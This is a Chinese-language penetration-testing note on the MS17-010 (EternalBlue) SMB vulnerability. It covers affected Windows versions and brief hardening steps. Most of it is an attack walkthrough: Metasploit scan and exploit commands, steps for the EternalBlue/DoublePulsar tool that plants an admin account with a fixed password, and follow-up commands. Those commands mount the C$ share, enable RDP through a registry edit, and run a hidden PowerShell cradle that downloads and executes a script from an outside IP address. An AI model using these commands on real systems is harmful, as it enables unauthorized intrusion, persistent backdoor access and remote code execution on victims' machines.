



# MS17-010（永恒之蓝）

Review: 2026-10-30 17:18:33

## 一、漏洞描述

MS17-010 是 Windows SMB 服务的一个远程代码执行漏洞，通常被称为“永恒之蓝”（EternalBlue）。该漏洞的根本原因是 Windows 的 SMBv1 服务在处理特制数据包时发生缓冲区溢出，导致攻击者可在目标系统上执行任意代码。

SMB（Server Message Block）协议是一个用于在网络上共享文件、打印设备、命名管道、邮槽等资源的协议。利用该协议，客户端可以访问服务器上的共享文件和目录（增删改查）、打印队列和进程间通信服务，还可以实现客户端和服务器之间的远程过程调用。

该漏洞的最基本利用条件是：**目标主机开启了 445 端口**。

## 二、SMB 工作原理

1. 客户端首先发送一个 SMB `negport`​ 请求数据报，列出它所支持的所有 SMB 协议版本。服务器收到请求消息后响应请求，并列出希望使用的 SMB 协议版本。如果没有可用的协议版本，则返回 `0XFFFFH`，结束通信。
2. 协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程通过发送 `SessetupX`​ 请求数据包实现。客户端发送一对用户名和密码或一个简单密码到服务器，然后服务器发送一个 `SessetupX` 应答数据包来允许或拒绝本次连接。
3. 当客户端和服务器完成磋商和认证之后，会发送一个 `Tcon`​ 或 `TconX`​ SMB 数据报并列出它想访问的网络资源的名称，之后服务器会发送一个 `TconX` 应答数据报以表示此次连接是否接受或拒绝。
4. 连接到相应资源后，SMB 客户端能够通过 `open SMB`​ 打开文件，通过 `read SMB`​ 读取文件，通过 `write SMB`​ 写入文件，通过 `close SMB` 关闭文件。

## 三、漏洞威胁

能够远程主动发起对漏洞主机 `135/137/138/139/445` 端口的扫描，并能直接获得漏洞主机的系统权限，属于最高严重级别的漏洞。

## 四、漏洞影响范围

- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
- Windows Server 2008 R2
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows Server 2012 R2
- Windows Server 2016

## 五、加固方案

1. **安装最新补丁**
2. **禁用服务器服务**

   - 单击“开始” → “控制面板”（或指向“设置”，单击“控制面板”）
   - 双击“管理工具” → 双击“服务”
   - 双击“Server”
   - 在“启动类型”列表中，单击“禁用”
   - 单击“停止”，单击“确定”

## 六、漏洞发现与扫描

### 1. fscan 扫描

使用 `fscan` 扫描 MS17-010 漏洞（适用于 Windows Server 2003 等老系统）。

### 2. Metasploit（MSF）扫描

在 Kali 中打开 MSF：

```bash
msfconsole
```

搜索模块：

```bash
search ms17_010
```





#### 扫描命令

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

#### 攻击命令（后续使用）

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

如果不知道应该使用什么命令，输入 `options`​ 获取帮助。在此只关注两个命令：`RHOSTS`​ 和 `THREADS`。

- `RHOSTS`：要扫描的主机（主机段）
- `THREADS`：线程，默认是 1，可以调大加快扫描

设置扫描目标（假设靶机 IP 为 `192.168.223.141`）：

```bash
set rhosts 192.168.223.141/24
set threads 20
run
```

## 七、方程式利用工具（EternalBlue + DoublePulsar）

使用方程式利用工具成功后的截图：



### 方程式工具用法

1. 先在 `Eternalblue` 页面输入目标 IP，发起攻击。
2. 再切换到 `Doublepulsar` 页面，输入目标 IP，选择架构（必须选一次）。

   - 如果目标是 x86 架构，直接 `attack`。
   - 如果目标是 x64 架构：

     - 第一次攻击后，在方程式根目录中把 `x64.dll`​ 改名为 `x64_0.dll`；
     - 再将 `x64.dll_1.dll`​ 改为 `x64.dll`，进行攻击；
     - 然后改名为 `x64_1.dll`​，再将 `x64.dll_2.dll`​ 改为 `x64.dll`，攻击；
     - 再改名为 `x64_2.dll`，也就是把三个 dll 轮一遍，但需要分清楚顺序以便下一次攻击，以此类推。

成功后会在目标机器创建管理员账户：`net / Aa123456..`​（实际账号为 `net`​，密码为 `Aa123456..`）。

### 后续利用命令

可用以下命令在不登录 RDP 的情况下利用，也可以直接连接 RDP。

```cmd
:: 建立 IPC$ 连接
net use \\192.168.233.54\ipc$ /u:net Aa123456..

:: 查看目标 C 盘共享
dir \\192.168.233.54\c$

:: 通过 paexec 开启远程桌面
paexec.exe \\192.168.233.204 -u net -p Aa123456.. -s REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

:: 下载并执行远程 PowerShell 脚本
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://176.122.178.72:80/a'))"
```
